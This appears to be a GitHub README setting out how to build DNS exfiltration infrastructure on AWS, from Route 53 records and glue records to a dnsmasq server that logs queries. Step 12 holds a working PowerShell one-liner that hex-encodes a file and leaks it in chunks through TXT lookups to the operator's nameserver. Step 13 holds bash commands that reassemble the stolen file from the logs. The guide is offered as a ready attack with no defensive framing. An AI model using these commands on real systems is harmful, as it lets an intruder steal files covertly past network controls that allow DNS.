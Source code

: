 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
sudo yum install dnsmasq  
sudo nano /etc/dnsmasq.conf then input the content below, right at the bottom of the config file  
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq (sudo systemctl restart systemd-networkd.service)  

sudo dnsmasq  

## Step 5: Go to Route 53 config, note down default SOA and NS records  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/3291d850-0692-4017-9cd0-398aa51e97ea)


## Step 6: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 9: Modify glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)


Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 10: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.<yourdomain.com>  


## Step 11: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  


## Step 12: Powershell command to hex encode a file, split, and do nslookup

`certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `


## Step 13: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > ToExfil.txt | cat ToExfil.txt`  

